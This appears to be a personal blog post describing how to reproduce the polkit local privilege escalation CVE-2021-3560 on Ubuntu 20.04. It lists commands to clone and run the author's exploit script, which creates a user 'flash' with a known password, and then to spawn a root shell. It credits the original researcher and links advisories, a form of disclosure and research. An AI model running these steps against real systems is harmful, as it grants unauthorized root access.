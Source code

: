 ```yaml
---
title: Exploiting CVE-2021-3560
tags: [Research, Exploit-Development]
style: fill
color: success
comments: true
description: Local privilege escalation via polkit
---
```


## Introduction

Local privilege escalation via `polkit` (CVE-2021-3560)

***Note:*** The vulnerability was originally discovered by [Kevin Backhouse](https://twitter.com/kevin_backhouse) from [GitHub Security Lab](https://twitter.com/GHSecurityLab). I've just written the code to automate the exploit.

## Testing Environment

The exploit has been tested on `Ubuntu-20.04.1-Desktop` with `policykit-1 0.105-26ubuntu1`

![version](https://i.imgur.com/MBfYklQ.png)

## Steps to Redproduce

Install Open SSH Server & start it

```
sudo apt update
sudo apt install -y openssh-server 
sudo systemctl start ssh
```

Login via ssh

```
ssh localhost
```

![ssh](https://i.imgur.com/xd0v5AY.png)

Download the exploit

```
git clone https://github.com/deathflash1411/CVE-2021-3560 && cd CVE-2021-3560
```

![git clone](https://i.imgur.com/M6A6JDO.png)

Run the exploit

```
python3 CVE-2021-3560.py
```

![exploit](https://i.imgur.com/trlHkzC.png)

A new user `flash` has been created with uid `1001`

Run the command displayed by the exploit

![command](https://i.imgur.com/SsHZ9x1.png)

Login as `flash` with password `flash` via su and spawn a root shell `sudo -i`

```
su - flash
```

![rooted](https://i.imgur.com/qRvp1WI.png)

***Note:*** The command might not work on the first try, run it a few times if you're unable to login.

## References

- [https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [https://www.youtube.com/watch?v=QZhz64yEd0g](https://www.youtube.com/watch?v=QZhz64yEd0g)
- [https://ubuntu.com/security/CVE-2021-3560](https://ubuntu.com/security/CVE-2021-3560)